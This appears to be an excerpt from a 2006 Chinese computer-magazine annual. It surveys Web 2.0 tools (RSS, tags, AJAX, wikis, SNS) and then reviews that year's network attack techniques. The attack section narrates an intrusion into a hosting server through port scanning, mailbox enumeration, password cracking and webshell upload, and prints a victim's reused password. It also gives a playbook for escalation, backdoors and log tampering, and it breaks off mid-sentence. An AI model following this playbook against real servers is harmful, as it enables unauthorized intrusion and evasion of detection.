Web 2.0时代，受众参与的积极性大大提高，这种参与的范围是前所未有的，大部分多媒体网络杂志平台都提供了杂志制作软件，这无疑可以提高用户参与制作的积极性，进一步增加内容的鲜活度。目前，比较优秀的杂志制作软件有很多，ZineMaker2006就是其中一款专门用于制作网络杂志的免费软件。软件下载地址为http://www.zinemaker.com。它采用了128位高强度加密技术，能严格保护用户的Flash文件不被恶意破解。生成的杂志文件是独立的EXE文件，内置Flash8播放器，直接打开就能观看。随着网络杂志的日渐流行，网友自己制作的积极性也越来越强。Zinemaker 2006凭借着自身的强劲优势特点，自推出以来已经逐步成为目前市场上最受欢迎的电子杂志制作软件。值得一提的是，软件自带多套精美Flash动画模板和大量的Flash页面特效，让更多普通用户也能加入一起制作属于自己的电子杂志，还能够在线发布。如图2所示。


### 三、精彩纷呈：发展中的Web 2.0技术

通过上述Web 2.0技术的热门应用讲解，我们对Web 2.0技术的发展也有了更多期待。实际上，Web 2.0还有很多应用，而且其前途更是不可限量。这些技术像默默无闻的无名英雄，用自己的努力支持着网络产业的飞速发展。

#### 1. RSS技术：精彩内容在取舍之间

RSS为Really Simple Syndication（简易供稿）的缩写，是某一站点用来和其他站点之间共享内容的一种简易方式，也叫聚合内容。网络用户可以通过支持RSS的新闻聚合工具软件（例如SharpReader NewzCrawler、FeedDemon RSSReader），在不打开网站内容页面的情况下阅读支持RSS输出的网站内容，它属于Web 2.0时代的关键技术之一。作为一种先进的阅读方式，RSS的出现解决了IE“窗口堆积”和标签式浏览器的“标签拥挤”问题。可以用通俗的语言这样描述一个RSS的基本应用：用户通过RSS订阅，从网站上获取最新的文章标题、内容提要及全文链接等基本信息，并据此进行可取舍的有针对性的快速阅读。以下是几种最有前途的RSS应用——RSS阅读软件、在线RSS聚合网站、RSS搜索引擎、基于RSS的个人信息管理服务以及RSS聚合媒体等。

##### （1）RSS阅读软件

为了下载和阅读RSS“推”来的内容，用户需要一个叫“RSS阅读器”（也叫“新闻阅读器”或“新闻聚合器”）的本地软件。通过RSS阅读器软件，新闻网站上最新文章的标题和摘要显示出来，这一功能被称为RSS Feed。RSS Feed实质是一个XML格式的文件，用户通过订阅各种各样的RSS Feed，了解相关标题和摘要后，就可以点击相关链接进行详细阅读。另外，很多新生的互联网浏览器也将RSS“推”技术嵌入了其源代码中。现在，网络上的英文RSS阅读器很多，比较知名的有“看天下”RSS阅读器、新浪点点通阅读器、SharpReader RSS阅读器、RssReader阅读器等。

##### （2）在线RSS聚合网站

2006年以来，RSS聚合网站如雨后春笋般快速兴起。一般在支持RSS的网站上都会有若干橘黄色标有“XML”或“RSS”的方块，点击方块即可打开它们对应的RSS地址。如果网站更新的新闻量大，依靠手工编写RSS文件就有可能出错。我们可以使用RSS生成器，软件下载地址为：http://www.newhua.com/soft/31240.htm。开启软件新建一个RSS文件，在上方“必选元素”区输入“Description”、“Link”和“Title”三个必选语句的内容，要添加新闻条目就点击“Items”后的按钮进入新闻添加窗口，单击“Add”按钮增加一个新闻条目，然后在左边的语句中根据提示添加新闻标题、简要介绍和链接等，完毕后返回到软件主界面，按下工具栏中的保存按钮将文档保存为.xml文件即可。

> 提示：在安装RSS生成器之前需要先安装.NET Framework组件包。

##### （3）RSS搜索引擎

Google和百度等常规搜索引擎对博客内容的抓取及时效性常常不够让人满意。于是，许多针对博客或RSS制作搜索引擎便出现了。下面是一些比较优秀的中文博客或RSS搜索引擎：

| 名称 | 介绍 |
| --- | --- |
| http://www.feedsearch.net | 中文博客搜索，中文RSS搜索 |
| http://www.feedss.com | Feedss中文rss搜索引擎，很棒的rss搜索引擎 |
| http://www.kantianxia.com/search | 看天下RSS搜索引擎 |
| http://www.oao.cn | 中文(RSS)博客搜索引擎 |
| http://rshow.net/search | RSshow搜索引擎 |
| http://www.booso.com | 全球中文第一博客搜索 |

##### （4）RSS技术的新应用

目前众多互联网巨头将业务发展平台延伸至手机终端，将互联网业务模式复制到移动增值业务领域，由此推动移动增值业务形式日益丰富。2005年12月31日，卓越网宣布将与国内RSS服务提供商FeedSky合作，将RSS引入电子商务广告中。2006年1月7日，掌上灵通正式宣布与国内RSS处理服务商FeedSky进行合作，共同开拓RSS商业媒体市场。这些合作趋势表明，RSS商业化应用逐步成熟，如果运作顺利，RSS将进一步与B2B、C2C电子商务企业结合，形成新生的广告投放市场，并为RSS服务商挖掘盈利增长点提供了可能。可见，将RSS技术分别与分类广告、SP相结合，在为用户提供品牌推广服务的同时，更可以借助RSS技术，进行资源整合，借助短信、广告等盈利模式，加快RSS技术应用的推广，实现其美好的发展前景。

#### 2. TAG技术：用标签扩大视野

TAG标签体现了群体的力量，使得日志之间的相关性和用户之间的交互性大大增强。值得一提的是：一个文章可以有多个TAG，这也是TAG区别于文章分类的最大的特点。简单的说，标签类似一篇文章的“关键词”，但又不同于一般意义上的关键词。用户可以将日志文章或者照片，选择一个或多个词语（标签）来标记，这样一来，凡是我们博客网站上使用该词语的文章自动成为一个列表显示。

TAG标签的作用如下：

- 添加标签的文章就会被直接链接到网站相应标签的页面，这样浏览者在访问相关标签时，就有可能访问到这篇文章，增加了文章被访问的机会。
- 可以很方便地查找使用了同样标签的文章，延伸文章的视野；方便地查找使用了同样标签的作者，作为志同道合的朋友，用户可以将他们加为好友或友情博客，扩大朋友圈。
- 增加标签的方式完全由用户自主决定，不受任何的限制，不用受网站系统分类和自己原有日志分类的限制，便于信息的整理、记忆和查找。

TAG很容易让用户和“关键词”、“分类”等概念混淆。首先，在信息的索引找寻上，标签和关键词有相通的地方。不同之处在于，关键词更是标注内容的主题，而标签则是在对内容的个人理解上的私人标注，未必针对的是主题，比如标签可能是时间，也可能是编号。同时标签的设定要比关键词更自由、更方便，标签就是自己关注/存储内容的坐标或名称。另外，TAG和分类的不同之处也很明显。首先，分类是在用户撰写日志之前就定好的，而TAG是在写完日志之后再添加的；其次，用户可以同时为一篇日志贴上好几个TAG（标签），方便自己随时查找；再次，用户可以看到有哪些人和自己使用了一样的TAG（标签），进而找到志趣相投的朋友。

举一个例子，比如用户写了一篇到西湖旅游的日志，原来都是把这一类的日志放到自己的“心情故事”分类下，但是有了TAG之后，就可以给这篇日志同时加上“旅游”、“杭州”、“西湖”、“心情故事”等几个TAG，当浏览者点击其中任何一个TAG，他都可以看到你的这篇日志。同时用户也可以通过点击这几个TAG，看看究竟有谁最近也去了杭州旅游，或许你们还可以交流一下旅游心得，成为下一次出游的伙伴呢！

目前，国内已经有越来越多的技术爱好者开始讨论TAG技术的理念和应用前景。BlogBus的CEO窦毅认为，TAG的商业价值不可估量。比如在“手机”的TAG下放各类手机厂家的分类广告，这是一种最简单的利润来源。当用户通过不同的角度获取TAG的信息页面时，与这些主题紧密相关的广告价值将得到体现，这比Google的上下文广告更有精确度。目前，在BlogBus的TAG主页上，已经有一些淘宝卖家注册后发布的商品TAG，少量TAG是一些企业产品的简介和推广。同时，任何围绕知识和数字媒体的新商业模型，包括网络广告，都可以从TAG技术中获得提升。另外，真正能够充分利用TAG技术的社会性软件，也将借助人们的参与让不同的商业模型取代传统的成功模式。如图3所示。


图3

另外，值得注意的是，Yahoo公司也十分重视TAG技术，因为它代表了一种新的组织和管理在线信息的方式。这更加符合用户使用的顺滑感和提高检索结果的相似程度，将会极大地促进用户查询数字文件的能力，照片、视频等多媒体数字文件都可以打上TAG的标签进行管理。虽然TAG暂时无法取代Yahoo和Google这样的搜索引擎，但如果日后TAG的应用逐渐增长，那么搜索引擎的使用量肯定会逐渐减少。

#### 3. AJAX技术：充分提高Web性能

现在，浏览器正以JavaScript为核心、基于各种Web标准（XHTML/CSS/DOM/XML/XSLT 和正在进行标准化的XMLHttpRequest）的技术进行整合，AJAX就是这一系列技术的一个统称。AJAX即“Asynchronous JavaScript And XML”的缩写，可翻译为“异步JavaScript 及 XML 技术”。从2006年发展情况来看，AJAX是热得不能再热的技术，并且AJAX这个名字也被频繁地与 Web 2.0 一并谈论。

需要指出的是，AJAX首先并不是一项纯粹的技术，而更近似于一个技术框架，它所倡导的方式能够大大优化用户的使用感受。由于在服务器和浏览器之间的数据传递交由JavaScript控制，开发人员得以跳出以往严格的请求应答模式从而构建更具有用户友好性的Web应用。举一个简单的例子，当用户请求新的数据内容时，传统的方法只能等待服务器将数据返回，然后刷新并重新显示整个页面；而AJAX只请求那些需要改变的内容，同时只改变那些需要改变的区域，而并不对这个页面进行刷新。可见，数据传递量得到了有效降低，这也使得AJAX成为缓解Web性能瓶颈的重要武器。

近年来，AJAX得到了广泛的应用，并直接和我们的生活息息相关。Google公司的地图服务（Google Maps）就是AJAX应用最典型的例子之一，Google Maps是Web 2.0概念的一个典型实例，它通过AJAX技术使用户可以通过点击和拖动地图，甚至向公众开放了地图API，使程序员可以添加许多特色功能。例如，房屋中介网站HousingMaps.com利用这种功能，在Google的地图服务上标示了公寓出租分类广告，用户通过地图就可以很直观地看到出租房在城市中所处的环境。最近，微软也推出了代号为Atlas的AJAX开发包，用Atlas编写的软件，可以与Windows Vista的各种元素产生互动。而且，采用Atlas编写的Web应用特别能够与其他程序产生互动，比如日历、即时通信联系人、相册和媒体播放软件等。

作为国内用户，实际上已经直接或间接地享受到了AJAX技术的好处。在填写表单内容需要数据验证时，在天气预报以及聊天室内容等需要自动更新页面的场合时，使用AJAX技术就可以明显强化网站的功能，提高用户的舒适感。比如，用户可以滚动屏幕浏览大量的信息，或者方便地把物品拖入在线购物车，或者在线配置产品而无需不断地刷新页面。国内知名的163网站（http://mail.163.com）、新浪手机（http://tech.sina.com.cn/mobile/volume/all.html）等网站即成功应用了AJAX技术。

### 四、人际资源的新发展: WIKI和SNS技术

从2006年网络技术的发展趋势来看，用户的体验得到了更多的尊重，协同工作、网络人际资源等人性化的理念正在被更多地提到。

#### 1. WIKI技术：协同工作新理念

WIKI一词来源于夏威夷语的“wee kee wee kee”，原本是“快点快点”的意思。WIKI最适合做百科全书、知识库、整理某一个领域的知识等知识型站点，不同地区的人们利用WIKI协同工作共同写一本书等。在这个平台上，WIKI的写作者自然构成了一个社群，WIKI系统也开始为这个社群提供简单的交流工具。

编辑简单是使用WIKI的好处之一，大多数WIKI定义一系列的格式化语法把一般的文本转换成HTML，从而创造了一套更简单的写作语法，让大家可以专注在写作上。其中，WIKI技术和规范包括：保留网页每一次更动的版本、页面锁定、版本对比、更新描述、IP禁止、Sand Box（沙箱）测试、编辑规则等。目前，WIKI技术已经被较好地用在百科全书、手册/FAQ编写、专题知识库方面。比较知名的WIKI站点如下表所示。

如今，WIKI技术和理念得到了进一步发展。许多软件开发商根据WIKI的理论和机制开发出了协同工作软件，TWIKI公司开发的开放源代码WIKI软件至今已有3.5万人次下载。而这些被下载的程序有2/3用于商业用途，使用者包括迪斯尼、SAP和摩托罗拉这样声名赫赫的公司。据统计，维基百科目前所吸引的网站访问量比Google新闻，或Yahoo新闻、BBC新闻等主流新闻媒体网站都高出了5倍之巨。纽约大学一名研究维基百科的教授Clay Shirky认为，在网络技术的推动下，维基百科已经从一个大百科全书演变成了一个综合性网络媒体。

| 网站名称 | 网站地址 | 简介 |
|---|---|---|
| 维基百科 | http://zh.wikipedia.org | 维基百科是一个多语言版本的自由百科全书协作计划，已经成为互联网上最受欢迎的参考资料查询网站。条目资料比较丰富，但没有权威性审核。 |
| 络天书 | http://www.cnic.org | 不是纯粹的百科全书，还没有明确的目标。文章的发挥空间比较自由，比较关心维客文化。 |
| 天下维客 | http://www.allwiki.com | 中文WIKI专题网站，交流WIKI建站、维基百科动态。 |
| ITwiki | http://wiki.ccw.com.cn | 计世网中文IT WIKI。 |
| CSDN&DoNewswiki | http://wiki.donews.com | CSDN 开发社区与Donews合建的IT类WIKI站点，偏重于IT公司和IT人物介绍。 |
| Mozilla知识库 | http://wiki.mozcn.org | 网友贡献的Firefox手册和知识库，还有Thunderbird和Mozilla的内容。 |
| 香港开源维基 | http://wiki.linux.org.hk | 由香港的三家Linux网站共同维护的中文Open Source及Linux的知识库。(繁体) |
| 背包攻略 | http://www.backpackers.com.tw/guide | 为全球华人旅游爱好者建立的免费网上指引。(繁体) |

#### 2. SNS技术：延伸网络人际资源

美国著名社会心理学家米尔格伦（Stanley Milgram）于20世纪60年代最先提出，在人际脉络中，要结识任何一位陌生的朋友，这中间最多只要通过六个朋友就能达到目的。就是说你想认识一个人，托朋友找朋友，再去找认识他的人，之间不会超过六个人。这就是著名的“六度关系理论”。SNS（Social Network Software），即社会性网络软件，就是依据六度理论，采用分布式技术构建的下一代基于个人的网络软件。它通过分布式软件编程，将分散在每个人的设备上的CPU、硬盘、带宽进行统筹安排，将每个设备的计算及带宽资源进行重新分配与共享，这些设备就有可能具备比那些服务器更为强大的能力。

如今，SNS技术在中国迅速发展，联络家、天际网、OPENBC、亿友网等一批企业不仅吸引了大批用户，而且也赢得了资本界的关注。同时，赛我网、OpenBC等海外知名企业也相继进入中国市场。各类SNS网站的发展，正在逐步改变着人们对互联网的使用习惯，尤其是商务SNS已经获得广大商务人士的青睐。以联络家（http://www.linkist.com）为例，这是一家面向华语世界专业人士的SNS网站。在注册成为网站会员后，人们可通过网站建立和管理自己的人脉网络。联络家的会员，来自于各行业的专业人士，通过“联络家”，用户可以结识和研究方向一致的朋友，从而获得更多的工作机会，拥有更有竞争力品质和价格的商品，联系到更多的销售渠道，抢先一步掌握商机等，这都是在其他的交友网站所不能实现的。“联络家”的成功表明，在进入互联网时代后，人脉资源的重要性不但没有减弱，反而越来越得到人们的重视。丰富的人脉资源意味着可以接触到更多更好的工作机会，取得更有竞争力的品质或价格，掌握更多的销售渠道以及占领更大的市场及其他可能的机会。如图4所示。


图4

下面，我们通过一个具体的软件实例进行讲解。“SNS个人社会网络小档案”是一款纯P2P的软件平台，它毋须服务器的干预，直接利用网络电脑互联就可以帮助个人用户进行信息发布与互动。软件下载地址：http://download.zol.com.cn/detail/11/107819.shtml。它可以很轻松地举办一场网络音乐会，给用户带来全新的体验。具体步骤如下。

第一步：注册账号
申请过程很简单，填写一些资料很快即可完成。登录之后，会发现SNS的界面和MSN比较类似，用户可以通过“朋友”菜单下的功能查找添加好友。

第二步：邀请音乐好友
点击“应用”菜单下的“开始音乐聚会”就可以邀请好友参加了。在邀请界面中列出了当前在线的好友，人越多越热闹，共享的资源和交流也会越丰富。发出邀请后，有朋友接受了邀请就可以开始聚会了，其他的朋友也会陆续加入进来。音乐聚会的大厅分为左右两部分，左边是交流聊天的地方，右边是共享资源的列表。

第三步：分享歌曲资源
作为Party的主人，首先就要分享出自己的歌曲资源了！点击界面右下方的加号按钮，就可以把音乐资源共享出来。也可以事先创建好音乐库，以便今后的Party中随时拿出来共享。当然，其他朋友也会贡献自己的资源。在列表中，红色字体是用户自己共享的音乐，黑色字体是其他人共享的资源。

第四步：管理歌曲
将鼠标放到某首歌曲上，就可以查看相关的资料，其中包括歌曲的提供者。如果有比较喜欢的歌曲资源，可以点击右键将其下载。

第五步：举办“音乐欣赏会”
只要将歌曲添加到列表上，就可以在线欣赏了。在歌曲上点击右键，选择“播放”，就可以把对方的机器当成流媒体服务器，片刻缓冲之后，音乐会就可以正式开始了。在欣赏的过程中，大家还可发表评论，提出好的意见。

总之，有了SNS，网络人际资源也更加广泛，当然，也可以找到更多的朋友了。由于社会性网络软件SNS属于显性的社会性软件，即比较关注直接的社会朋友关系的建立，具有社群性质，因此，朋友之间可进行充分的人力资源分享，有直接的应用目的指向性，在建立社会关系的过程中完成或解决了具体的应用问题。

## 2006年网络攻击技术 点评选奖

文 / 风之扬

在网络安全实践中，网络攻击者主动性很强，因此，在整个攻防实战中占据着十分主动的地位。从典型的攻击思路来看，攻击者一般要经过“探测”、“攻击”、“隐藏”等三个步骤，而且每个步骤又有许多种类型。2006年，网络安全界风起云涌，从技术更加精湛的网络注入到隐蔽性更强的钓鱼式攻击，从频频被利用的系统漏洞到悄然运行木马工具，网络攻击者的手段也更加高明。“知己知彼，百战不殆”，本专题将通过详细分类的方法，对本年度的网络攻击技术进行详细的点评。同时，还将穿插精彩的典型案例，使用户达到举一反三的目的。

### 一、2006年网络攻击发展趋势

**趋势1：攻击自动化程度和攻击速度提高，杀伤力逐步提高**

自动攻击一般涉及四个阶段，在每个阶段都出现了新变化。

目前，扫描工具利用更先进的扫描模式来改善扫描效果和提高扫描速度。以前，安全漏洞只在广泛的扫描完成后才被加以利用。而现在攻击工具利用这些安全漏洞作为扫描活动的一部分，从而加快了攻击的传播速度。

在2000年之前，攻击工具需要人来发动新一轮攻击。目前，攻击工具可以自己发动新一轮攻击。像红色代码和尼姆达这类工具能够自我传播，在不到18个小时内就达到全球饱和点。

**趋势2：攻击工具越来越复杂**

攻击工具开发者正在利用更先进的技术武装攻击工具。与以前相比，攻击工具的特征更难发现，更难利用特征进行检测。攻击工具具有以下特点：

- 反侦破和动态行为。攻击者采用隐蔽攻击工具特性的技术，这使安全专家分析新攻击工具和了解新攻击行为所耗费的时间增多；早期的攻击工具是以单一确定的顺序执行攻击步骤，今天的自动攻击工具可以随机选择或预先定义的路径来进行攻击，甚至是通过入侵者直接管理，来变化它们的模式和行为。
- 攻击工具的成熟性。与早期的攻击工具不同，目前攻击工具可以通过升级或更换工具的一部分迅速变化，发动迅速变化的攻击，且在每一次攻击中会出现多种不同形态的攻击工具。此外，攻击工具越来越普遍地被开发为可在多种操作系统平台上执行。

**趋势3：发现安全漏洞越来越快，覆盖面越来越广**

新发现的安全漏洞每年都要增加一倍，管理人员不断用最新的补丁修补这些漏洞，而且每年都会发现安全漏洞的新类型。入侵者经常能够在厂商修补这些漏洞前发现攻击目标。

**趋势4：越来越高的防火墙渗透率**

防火墙是人们用来防范入侵者的主要保护措施。但是越来越多的攻击技术可以绕过防火墙，例如，Internet打印协议和WebDAV（基于Web的分布式创作与翻译）都可以被攻击者利用来绕过防火墙。

**趋势5：越来越不对称的威胁**

Internet上的安全是相互依赖的。每个Internet系统遭受攻击的可能性取决于连接到全球Internet上其他系统的安全状态。由于攻击技术的进步，一个攻击者可以比较容易地利用分布式系统，对一个受害者发动破坏性的攻击。随着部署自动化程度和攻击工具管理技巧的提高，威胁的不对称性将继续增加。

**趋势6：对基础设施将形成越来越大的威胁**

基础设施攻击是大面积影响Internet关键组成部分的攻击。由于用户越来越多地依赖Internet完成日常业务，基础设施攻击引起人们越来越大的担心。基础设施面临分布式拒绝服务攻击、蠕虫病毒、对Internet域名系统(DNS)的攻击、对路由器攻击，或利用路由器的攻击。攻击工具的自动化程度使得一个攻击者可以安装他们的工具，并控制几万个受损害的系统发动攻击。入侵者经常搜索已知包含大量具有高速连接的易受攻击系统的地址块，电缆调制解调器、DSL和大学地址块等，将它们作为安装攻击工具的目标。

我们可以从攻击者的角度出发，将攻击的步骤分为探测（Probe）、攻击（Exploit）和隐藏（Conceal）。同时，攻击技术据此可分为探测技术、攻击技术和隐藏技术三大类，并在每类中对各种不同的攻击技术进行细分。

### 二、探测技术和攻击测试平台的发展

探测是黑客在攻击开始前必需的情报收集工作，攻击者通过这个过程需要尽可能详细地了解攻击目标安全相关的方方面面信息，以便能够集中火力进行攻击。探测又可以分为三个基本步骤：踩点、扫描和查点。如表所示。

| 攻击技术 | 子类 | 攻击方法 |
| :--- | :--- | :--- |
| 探测 | 踩点 | 查询域名、DNS、网络勘察 |
|  | 扫描 | Ping扫描（ipsweep）、端口扫描（portsweep, resetscan）、操作系统辨识（queso）、漏洞扫描（satan, mscan） |
|  | 查点 | ls, ntinfoscan |## 1. 探测三部曲：踩点、扫描和查点

如果将服务器比作一个大楼，主机入侵信息收集及分析要做的工作就如在大楼中部署若干个摄像头，在大楼发生盗窃事件之后，对摄像头中的影像进行分析，进而为报案和“亡羊补牢”做准备。

#### 第一步：踩点

是指攻击者结合各种工具和技巧，以正常合法的途径对攻击目标进行窥探，对其安全情况建立完整的剖析图。在这个步骤中，主要收集的信息包括：各种联系信息，包括名字、邮件地址和电话号码、传真号；IP地址范围；DNS服务器；邮件服务器。对于一般用户来说，如果能够利用互联网中提供的大量信息来源，就能逐渐缩小范围，从而锁定所需了解的目标。

- 通过网页搜寻和链接搜索
- 利用互联网域名注册机构进行Whois查询
- 利用Traceroute获取网络拓扑结构信息等

#### 第二步：扫描

是攻击者获取活动主机、开放服务、操作系统、安全漏洞等关键信息的重要技术。扫描技术包括Ping扫描（确定哪些主机正在活动）、端口扫描（确定有哪些开放服务）、操作系统辨识（确定目标主机的操作系统类型）和安全漏洞扫描（获得目标上存在着哪些可利用的安全漏洞）。Ping扫描可以帮助我们判断哪些系统是存活的。而通过端口扫描可以同目标系统的某个端口来建立连接，从而确定系统目前提供什么样的服务或者哪些端口正处于侦听状态。著名的扫描工具包括nmap、netcat等，知名的安全漏洞扫描工具包括开源的nessus及一些商业漏洞扫描产品如ISS的Scanner系列产品。

另外，在网络环境下，网络扫描技术则是指检测目标系统是否同互联网连接、所提供的网络服务类型等等。通过网络扫描获得的信息有：被扫描系统所运行的TCP/UDP服务；系统体系结构；通过互联网可以访问的IP地址范围；操作系统类型等。

#### 第三步：查点

查点是攻击者常采用的从目标系统中抽取有效账号或导出资源名的技术。通常这种信息是通过主动同目标系统建立连接来获得的，因此这种查询在本质上要比踩点和端口扫描更具有入侵效果。查点技术通常和操作系统有关，所收集的信息包括用户名和组名信息、系统类型信息、路由表信息和SNMP信息等。

综观本年度比较热门的攻击事件，可以看到，在寻找攻击目标的过程中，以下手段明显加强：

##### 手段1，通过视频文件寻找“肉鸡”

在今年，这种方法大有星火燎原之势，攻击者首先要配置木马，然后制作视频木马，如RM木马、WMV木马等，然后通过P2P软件、QQ发送、论坛等渠道进行传播，用户很难察觉。

##### 手段2，根据漏洞公告寻找“肉鸡”

现在，关于漏洞技术的网站专业性更强，在http://www.milw0rm.com这个网站上，经常会公布一些知名黑客发现的漏洞，从远程攻击、本地攻击到脚本攻击等，描述十分详细。在漏洞补丁没有发布之前，这些攻击说明可能会进一步加大网络安全威胁。

##### 手段3，利用社会心理学、社会工程学获取目标信息

比如，通过对受害者心理弱点、本能反应、好奇心、信任、贪婪等心理陷阱进行诸如欺骗、伤害等危害手段，取得自身利益的手法，近年来已呈迅速上升甚至滥用的趋势。目前，已经有攻击者通过“溯雪+社会工程学”的形式破解了263信箱。

## 2. 一则安全日记引发的攻击思路分析

时间：2006年7月某天晚上

地点：某出版社网络管理中心

人物：某网络管理员

序幕：一个网友突然传来一个网址，让检测一个数据中心网站的安全性。资料显示，该站点是一个大型虚拟主机系统，支持ASP+PHP+JSP。

事件记录：

拿过站点地址，没经过任何思考，利用SuperScan等软件对主机进行了端口扫描，扫描后共发现了10个端口，重要的有80、110、135、139、3389等，但能够利用的服务不算多。从扫描的80信息显示来看，对方的系统是Windows 2000+IIS5.0，还打开了一个远程桌面管理（开放了3389端口）。

###### 第一步：

检查是否有应用程序漏洞。登录3389服务，看看有没有非系统自带的输入法，因为某些类型的输入法还是有帮助文件和URL的，结果没有任何帮助文件。使用net命令测试后，发现不能顺利与服务器建立空连接，猜测密码口令也没有结果。

###### 第二步：

现在，比较合理的选择是检测CGI漏洞，使用安全扫描软件后，发现默认的“scripts”、“_vti_bin”等目录以及大量的“ida”、“idq”、“htw”等映像，但是用了许多溢出程序都没有溢出。初步推测，系统打上了SP3补丁。

###### 第三步：

下面再看看邮件服务软件是否支持expn、vrfy指令。经测试，返回“OK”并枚举出一个100多个用户的详细列表，接着用POP3密码破解软件破密码，自然收获不小了。然后尝试用这些账号登录ftp服务，终于发现其中有一个用户名为cndes，密码为1234abcd，而且可以登录ftp空间。也就是说，这个用户买了服务器的收费邮箱和收费主页空间，并且邮箱和主页空间的密码设置是相同的。

##### 第四步：

计划向主页空间上传两个文件，一个是win.exe，这是一个大小仅有4KB的木马，功能相当强大；另一个是海阳顶端ASP木马。上传完毕，现在就可以查看服务器的详细情况了。顺便查查cndes空间目录在什么位置，并把win.exe的路径记下来。

##### 第五步：

使用temp.asp进行入侵。为了防止被系统日志记录下入侵事件的启发

通过上面的分析，综合一般的攻击现象，可以得出如下典型攻击思路：

- 第一步：寻找“肉鸡”并探测其信息，力争进入该系统
  - 扫描目标主机。
  - 检查开放的端口，获得服务软件及其版本。
  - 检查服务软件是否存在漏洞，如果是，利用该漏洞远程进入系统；否则进入下一步。
  - 检查服务软件的附属程序是否存在漏洞，如果是，利用该漏洞远程进入系统；否则进入下一步。
  - 检查服务软件是否存在脆弱账号或密码，如果是，利用该账号或密码系统；否则进入下一步。
  - 利用服务软件是否可以获取有效账号或密码，如果是，利用该账号或密码进入系统。否则进入下一步。
  - 服务软件是否泄露系统敏感信息，如果是，检查能否利用；否则进入下一步。
  - 扫描相同子网主机，重复以上步骤，直到进入目标主机或放弃。

- 第二步：检查漏洞，找准机会并利用漏洞来提升权限
  - 检查目标主机上的程序是否存在漏洞，如果是，利用该漏洞提升权限，否则进入下一步。
  - 检查本地服务是否存在漏洞，如果是，利用该漏洞提升权限，否则进入下一步。
  - 检查本地服务是否存在脆弱账号或密码，如果是，利用该账号或密码提升权限；否则进入下一步。
  - 检查重要文件的权限是否设置错误，如果是，利用该漏洞提升权限，否则进入下一步。
  - 检查配置目录中是否存在敏感信息可以利用。
  - 检查用户目录中是否存在敏感信息可以利用。
  - 检查临时文件目录是否存在漏洞可以利用。
  - 检查其他目录是否存在可以利用的敏感信息。
  - 重复以上步骤，直到获得root权限或放弃。

- 第三步：放置后门
  很多都是自己写后门程序，用别人的程序总是相对容易被发现。

- 第四步：清理日志
  最好手工修改日志，不要全部删除，也不好使用别人写的工具。

可见，随着网络技术的不断发展，网络攻击者的思路也日趋成熟，在某些方面甚至比网络管理员更专业、更了解对方。在这种程序化的思路中，他们就能够对号入座寻找可能存在的对象，并实施有目的性的攻击。

## 3. 攻击测试平台的新发展

对于网络管理员来说，虚拟机是一项很不错的技术，安装了虚拟机，管理员就可以在自己的机子上同时运行多个操作系统，并可在它们之间进行自由的切换。不过，从2006年各大安全论坛的讨论主题来看，虚拟机技术在黑客中间也得到了普及。通过使用虚拟机，网络攻击者不需要重新开机就能在同一台电脑使用好几个操作系统，它可以将电脑上的一部分硬盘和内存进行组合，虚拟出若干台机器，实施各种操作系统下的攻击。

下面，我们将结合VMWare，详细了解攻击测试平台的搭建过程。用户可从以下网站下载该虚拟机：http://www.vmware.cn。

##### 第一步：VMWare软件的安装

这个过程十分简单，下载完毕，直接点击“Next”即可完成安装。安装完毕，我们会发现多了两块虚拟网卡，在VMWare下用户可以使用虚拟网卡进行联网设置及试验。单击“新建虚拟机”图标，根据提示选择一种要安装的操作系统，一般选择典型设置。

##### 第二步：虚拟机BIOS设置

虚拟机启动并自检后，这时按F2可以进入BIOS设置。每一台虚拟机都有它自己的BIOS。虚拟机使用PHOENIX BIOS，先将鼠标点击虚拟机窗口，接收鼠标键盘的输入信息后，就可以进行相关BIOS设置了。

##### 第三步：开始安装

设置光驱映像ISO文件，或者将光盘放入光驱后，进入操作系统的安装过程，否则虚拟机将会提示没有找到操作系统。如果光盘没有启动，需要到BIOS中设置启动顺序。安装完毕，点击虚拟机操作界面上方左边工具栏中的“打开电源”键，如同按下了一台电脑的开关。

##### 第四步：切换到虚拟机

进入虚拟平台后，它会屏蔽掉主机计算机的所有鼠标或键盘操作，不过我们可以按“Ctrl + Alt”组合键返回主机系统。虚拟机的重新启动、关机等对于宿主计算机来说都是虚拟的，但对于虚拟机中安装的操作系统来说则是真实的。因此，安装好操作系统的虚拟机，一样要先通过“开始”菜单关机，而不能强制关闭虚拟机电源，否则，虚拟机下次启动的时候也会像真实的电脑一样检测磁盘的。

##### 第五步：安装VMWare Tools

完成安装后，在VMWare软件的左下角有一个提示：“你没有安装VMWare Tools”。单击“虚拟机”菜单中的“安装VMWare工具”选项，安装VMWare工具。注意，如果是用ISO文件安装操作系统，最好重新加载该安装文件并重新启动系统，这样系统就能自动找到 VMWare Tools 的安装文件。如图 1 所示。


安装 VMWare Tools 之后，再次登录 Redhat Linux 系统，现在就会感觉在图像色彩和声音质量上都有很大的提高。同时，鼠标可以在虚拟机、宿主机之间随意移动、切换。新建一个虚拟机后，除了使用默认值，用户还可以通过配置文件修改参数。在单机平台上，利用 VMWare 构建一个具有多个节点的局域网，组建非常复杂的局域网。如图 2 所示。


通过上面的典型测试环境，攻击者可以在本地轻松地完成各种网络程序和其他操作系统的测试。如果能够结合 resin、Apache 等 web 服务器，我们就不难理解黑客为什么能够如此迅速地完成其他系统或平台下的漏洞或攻击测试了。难怪有人会这么评价：一名优秀的网络管理员首先是一名优秀的黑客。

## 三、2006 年网络攻击和隐藏技术述评

防止网络攻击中的焦点在哪里呢？首先，我们应该对攻击技术的分类有一个清晰的脉络，否则很难确定自己在这场战争中的角色。因此，我们可以从以下几个方面对 2006 年网络攻击技术进行分述，即窃听技术、欺骗技术、拒绝服务和数据驱动攻击。同时，对攻击事件完成之后的隐藏技术也进行分析。

#### 1. 窃听技术及其新发展

窃听技术是攻击者通过非法手段对系统活动的监视从而获得一些安全关键信息。目前属于窃听技术的流行攻击方法有键击记录器、网络监听、非法访问数据和攫取密码文件。可以从以下几个方面来分析。

网络・热点围堵

《电脑爱好者》合订本·附录分册

- （1）键击记录器
  这是植入操作系统内核的隐蔽软件，通常实现为一个键盘设备驱动程序，能够把每次键击都记录下来，存放到攻击者指定的隐藏的本地文件中。著名的有 Win32 平台下适用的 IKS 等。

- （2）网络监听
  这是攻击者一旦在目标网络上获得一个立足点之后刺探网络情报的最有效方法，通过设置网卡的混杂（promiscuous）模式获得网络上所有的数据包，并从中抽取安全关键信息，如明文方式传输的口令。Unix 平台下提供了 libpcap 网络监听工具库和 tcpdump、dsniff 等著名监听工具，而在 Win32 平台下也拥有 WinPcap 监听工具库和 windump、dsniff forWin32、Sniffer 等免费工具，另外还有专业工具 Sniffer Pro 等。

- （3）非法访问数据
